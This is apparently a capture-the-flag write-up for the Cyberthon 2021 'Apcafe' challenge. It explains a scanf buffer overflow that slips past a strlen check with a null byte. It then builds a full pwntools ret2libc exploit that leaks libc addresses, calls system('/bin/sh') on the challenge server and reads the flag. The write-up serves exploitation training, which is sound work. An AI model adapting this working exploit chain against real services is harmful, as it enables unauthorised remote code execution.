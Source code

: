 ### Apcafe

---

### Description

> We've received intel that APOCALYPSE is running a cafe as a front for their illegal activities. Although it seems like a regular cafe on the outside, serving local favourites such as Kopi-O, Milo, and Yuan Yang, we believe that something more sinister is going on. Could u try to find a way to break in so we can investigate further?

> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30101

> Note: once you get a shell, the flag.txt can be found in the user's home directory.

[apcafe.zip](https://github.com/caprinux/Cyberthon-2021/files/6445700/apcafe.zip)

---

### Walkthrough

Running the binary, we are presented with a menu of drinks to select from, and exits upon selecting a drink.

![image](https://user-images.githubusercontent.com/76640319/117536365-38ecec00-b02d-11eb-93d2-8965f0b3be18.png)

We decompile this binary in IDA pro to get a clearer look at what is going on.

```c
main{

  char v4[10]; // [rsp+6h] [rbp-Ah] BYREF

  setup_IO(argc, argv, envp);
  banner();
  printf("What do you want to order? ");
  __isoc99_scanf("%s", v4);
  serve_order(v4);
  return 0;

}
```

As we can see, main function does a few things:

1. It defines v4, and gives it a buffer of 10 bytes.
2. It prints a banner and a question
3. It scans in an input with **%s** string _(which does not limit number of bytes)_
4. It calls serve_order() before returning.

Let's analyse serve_order() first before making any conclusions.

```c
  if ( strlen(v4) > 0xA )
  {
    puts(s);
    puts("Huh? What kind of weird order is this? Please leave.\n");
    exit(0);
  }
  for ( i = 0; i <= 4; ++i )
  {
    if ( !strcmp(v4, &DRINKS[10 * i]) )
    {
      puts(s);
      puts("*****************************");
      printf(" Here is your %s!\n", &DRINKS[10 * i]);
      puts("*****************************");
      puts("ASCII ART HERE")
      return puts("Bye! Hope to see you again!");
    }
  }
  puts(s);
  return printf("Sorry, we don't sell %s...\n", v4);
}
```

As we can see, 

1. serve_order takes our previous input, **v4**, and checks its string length against 0xA with the strlen() function. _vulnerable!!_
2. If string length of our input is longer than 0xA, it will immediately exit the program.

Now that we have a bigger picture, we are aware that we have a buffer overflow at scanf. However, if we blindly overflow, the program will exit when it checks **strlen(v4) > 0xA**.

This is where strlen function comes in:

> The C library function size_t strlen(const char *str) computes the length of the string str up to, but not including the terminating null character. 

Since strlen only counts up to a terminating null character, we can artificially put in a terminating null character.

Now that we have control over our return pointer, how could we exploit this program? A simple ret2libc should suffice.

Now we can start writing the first stage of our script.

```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
#libc = ??

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address
```

The logic of the exploit will go like this.

1. We overflow the buffer and reach the return address,
2. With the return address, we leak libc and loop back to the program
3. With our LIBC leak, we can find the libc on the remote server
4. With the LIBC on the remote server, we can calculate the address of **system()**.
5. Return to LIBC system('/bin/sh\x00')

Let's continue to try and leak ourselves a LIBC.

```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
#libc = ??

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.puts(elf.got.puts)                                        # leak puts GOT
rop.puts(elf.got.printf)                                      # leak printf GOT
p.sendline(payload + rop.chain())

p.recvuntil(b'Sorry, we don't sell water...')
p.recvline()
puts = hex(u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))) # puts leak
printf = hex(u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))) # printf leak
```

Running the script, we will easily find the addresses of puts and printf.

> 0x7fb9231935a0

> 7fb923170e10

When we use these addresses to find the LIBC, we are presented with 3 similar LIBCs:

![image](https://user-images.githubusercontent.com/76640319/117537056-4015f900-b031-11eb-9e03-755edf966304.png)

This can be easily narrowed down by leaking more function addresses or simply by just trying all 3.

Let's continue with the remaining of our script, but this time we have our libc

```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
libc = ELF('libc6_2.31-0ubuntu9_amd64.so')

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.puts(elf.got.puts)                                        # leak puts GOT
rop.puts(elf.got.printf)                                      # leak printf GOT
p.sendline(payload + rop.chain())

p.recvuntil(b'Sorry, we don't sell water...')
p.recvline()
puts = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00')) # puts leak
printf = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00')) # printf leak

libc.address = printf - libc.sym.printf                       # find libc base address

rop = ROP([elf, libc])                                        # reset rop chain
rop.call(rop.ret[0])                                          # align the stack
rop.system(next(libc.search(b'/bin/sh')))                     # call system('/bin/sh')

rop.interactive()
```


There we have the main outline of our code. After some cleaning up we are done!

```py
# coding: utf-8
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
libc = ELF('libc6_2.31-0ubuntu9_amd64.so')

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.puts(elf.got.puts)                                        # leak puts GOT
#rop.puts(elf.got.printf)                                      # leak printf GOT
rop.main()
p.sendline(payload + rop.chain())

p.recvuntil(b"Sorry, we don't sell water...")
p.recvline()
puts = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00')) # puts leak
#printf = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00')) # printf leak

libc.address = puts - libc.sym.puts

binsh = (next(libc.search(b'/bin/sh')))
rop = ROP([libc, elf])
rop.call(rop.ret[0])                                          # align the stack
rop.system(binsh)                                             # call system('/bin/sh')
p.sendline(payload + rop.chain())

p.clean()
p.sendline('cat */*/flag*')
print(p.recvall())
```

**Cyberthon{th4t5_4_r34lly_l000ng_0rd3r_dud3_pl5_ch1ll}**
